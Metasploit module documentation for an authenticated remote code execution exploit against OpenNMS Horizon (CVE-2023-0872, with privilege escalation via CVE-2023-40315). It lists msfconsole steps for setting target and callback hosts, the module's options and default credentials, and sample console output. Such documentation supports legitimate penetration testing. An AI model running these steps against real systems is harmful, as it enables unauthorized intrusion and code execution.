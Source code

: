 ## Verification Steps
1. Start `msfconsole`
2. Do: `use exploit/linux/http/opennms_horizon_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set FETCH_SRVHOST [IP]`
6. Do: `exploit`

## Options
### TARGETURI
The base path to OpenNMS. The default value is `/`.

### USERNAME
Username to authenticate with. The default value is `admin`

### PASSWORD
Password to authenticate with. The default value is `admin`


## Advanced Options
### PRIVESC_SAVE_DELAY
The time in seconds to wait for privesc changes to go into effect. This is used only when escalating privileges via CVE-2023-40315.
The default value is `3`.

## Targets
```
Id  Name
--  ----
0   Linux
```

## Scenarios
### OpenNMS Horizon 31.0.7 - Exploitation via CVE-2023-0872
```
msf6 exploit(linux/http/opennms_horizon_authenticated_rce) > options

Module options (exploit/linux/http/opennms_horizon_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   rest             yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.91.196   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8980             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /opennms/        yes       The base path to OpenNMS
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   rest             yes       Username to authenticate with                                                                                                                                                              
   VHOST                       no        HTTP server virtual host


```